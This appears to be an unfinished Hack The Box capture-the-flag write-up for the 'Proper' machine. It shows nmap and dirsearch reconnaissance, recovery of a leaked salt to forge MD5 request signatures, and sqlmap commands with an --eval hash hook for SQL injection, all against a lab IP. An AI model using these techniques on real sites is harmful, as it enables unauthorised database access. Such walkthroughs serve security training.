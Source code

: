 ## ----------------->> Proper <<----------------

// We start with nmap scan

    $nmap -sV -A -Pn -T4 10.10.10.231 -p-
----------

    Nmap scan report for 10.10.10.231
    Host is up (0.23s latency).
    Not shown: 65534 filtered ports
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 10.0
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/10.0
    |_http-title: OS Tidy Inc.
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// We can see only port 80(http) open, Lets check it out

![Image 1](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/1.png)

// Its seems like some company products website,

// Move on to search for interesting directories or files with [dirsearch](https://github.com/maurosoria/dirsearch)(By maurosoria)

    $ python3 dirsearch.py -u http://10.10.10.231/ -t 100 -w /usr/share/dirb/wordlists/big.txt 
--------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 20469

    Target: http://10.10.10.231/

    [09:17:58] Starting: 
    [09:18:07] 301 -  150B  - /assets  ->  http://10.10.10.231/assets/
    [09:18:26] 301 -  152B  - /licenses  ->  http://10.10.10.231/licenses/

    Task Completed

// We found two directories /assets/ its Forbbiden but /licenses/ get us to login page

![Image 4](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/4.png)

// guessing and sql injection syntaxes didnt work...

// Moving on to BurpSuite and open the first page (http://10.10.10.231/index.html) With Reapeter

// The response shows us that there another directory that load with the /index.html

![Image 2](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/2.png)

    /products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b
    
// Navigating to there, shows us all the company products

![Image 3](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/3.png)

// Also 'order=id+desc' looks like SQL query i will change desc to asc(read more abot [desc&asc](https://www.guru99.com/order-by-desc-and-asc.html))

![Image 5](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/5.png)

// We got Forbidden page, Moving on...

// When removing the md5 hash from the browser we got error for parameter missing

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/6.png)

// Lets try to remove 'h' parameter

// Now we get the same error but this time we get also crash details

![Image 7](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/7.png)

// We got the secure-salt !

    'SECURE_PARAM_SALT','hie0shah6ooNoim'

// Lets check the hash with online hash-analyzer [tool](https://www.tunnelsup.com/hash-analyzer/)

![Image 8](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Proper/8.png)

// its md5 hash, we need to encrypt the salt now, we can do that with md5sum tool or online [tool](https://www.md5online.org/md5-encrypt.html)

    The MD5 hash for hie0shah6ooNoim is : 9094e65be4a9dc27cd4af70674a99c64

// And check the response status with curl

    $ curl -I http://10.10.10.231/products-ajax.php?order=id+asc&h='9094e65be4a9dc27cd4af70674a99c64'
-----

    HTTP/1.1 500 Internal Server Error
    Content-Length: 0
    Content-Type: text/html; charset=UTF-8
    Server: Microsoft-IIS/10.0
    X-Powered-By: PHP/7.4.1
    Date: Tue, 24 Aug 2021 19:03:47 GMT

// we got status 500 (Internal Error)

// After some tries it work when i encrypted the salt and add 'id acs' - "hie0shah6ooNoimid asc"

    $ echo -n "hie0shah6ooNoimid asc" | md5sum
    181345bd7fce37aad011ea65a41b60c8  -

// And lets check it

    $ curl -I 'http://10.10.10.231/products-ajax.php?order=id+asc&h=181345bd7fce37aad011ea65a41b60c8'
-----

    HTTP/1.1 200 OK
    Content-Length: 0
    Content-Type: text/html; charset=UTF-8
    Server: Microsoft-IIS/10.0
    X-Powered-By: PHP/7.4.1
    Date: Tue, 24 Aug 2021 18:49:52 GMT

// It worked !

// Now that we know the salt worked we can proceed to [sqlmap](https://github.com/sqlmapproject/sqlmap)tool with [this](https://securitypadawan.blogspot.com/2014/01/using-sqlmaps-eval-functionality-for.html) help to understand.

$sqlmap -u http://10.10.10.231/products-ajax.php?order=id+asc&h=181345bd7fce37aad011ea65a41b60c8 -p order --eval="import hashlib ; h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()" --batch --level=3 --risk=3 --skip-urlencode -v 5 --dbs

sqlmap -u "http://10.10.10.231/products-ajax.php?order=1" --batch --tamper=proper --level=3 --risk=3 --skip-urlencode

https://github.com/evyatar9/Writeups/tree/master/HackTheBox/Proper

http://10.10.10.231/products-ajax.php?order=id+desc&h=9094e65be4a9dc27cd4af70674a99c64

The MD5 hash for hie0shah6ooNoimid asc is : 181345bd7fce37aad011ea65a41b60c8
